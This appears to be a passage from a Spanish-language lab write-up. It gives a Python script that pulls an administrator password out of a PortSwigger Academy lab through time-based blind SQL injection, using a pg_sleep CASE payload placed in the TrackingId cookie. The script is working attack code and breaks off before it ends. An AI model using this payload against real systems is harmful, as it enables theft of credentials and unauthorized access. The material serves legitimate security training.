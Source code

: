 ![](/img2/Pasted%20image%2020250709135955.png)

> Antes de crear el script en python para averiguar la contraseña podemos ver de manera opcional la longitud de la misma.

```python
import requests
import signal
import sys
import string
import time
from pwn import *


def def_handler(sig,frame):
	print('\n\n[+] Exiting...\n')
	sys.exit(1)


signal.signal(signal.SIGINT,def_handler)


characters= string.digits + string.ascii_letters
url= "https://0a9000bf04797132800c627100c80072.web-security-academy.net"


def SQLI():
	password=""
	p1.status("Starting")
	time.sleep(2)
	for position in range(1,21):
		for character in characters:
			cookies= {
			'TrackingId' : f"TvXMzKlqgSfVoLVu'||case when((select substring(password,{position},1) from users where username='administrator')='{character}') then pg_sleep(1) else pg_sleep(0) end-- -",
			'session':'ssseVb0zU0yGxMnWleooIm2dOnRjdt5T'
			}
			p1.status(cookies['TrackingId'])
			old_time=time.time()
			r= requests.get(url=url,cookies=cookies)
			new_time=time.time()
			if new_time-old_time>0.95:
				password+=character
				p2.status(password)
				break
```